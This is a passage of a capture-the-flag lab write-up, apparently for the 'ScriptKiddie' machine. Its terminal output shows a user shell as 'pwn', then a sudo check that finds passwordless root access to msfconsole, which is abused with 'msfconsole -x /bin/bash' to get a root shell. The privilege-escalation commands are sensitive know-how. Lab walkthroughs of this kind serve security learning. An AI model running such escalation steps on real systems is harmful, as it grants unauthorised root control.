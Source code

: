 ```
bash: no job control in this shell
pwn@scriptkiddie:~$
pwn@scriptkiddie:~$
pwn@scriptkiddie:~$
pwn@scriptkiddie:~$
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```

We are now "pwn" user.

There is an easy way to get root access through `msfconsole`:

```
pwn@scriptkiddie:~/recon$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole




pwn@scriptkiddie:~/.ssh$ sudo /opt/metasploit-framework-6.0.9/msfconsole -x /bin/bash
</metasploit-framework-6.0.9/msfconsole -x /bin/bash

id


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: When in a module, use back to go back to the top level prompt

[*] exec: /bin/bash

uid=0(root) gid=0(root) groups=0(root)
```
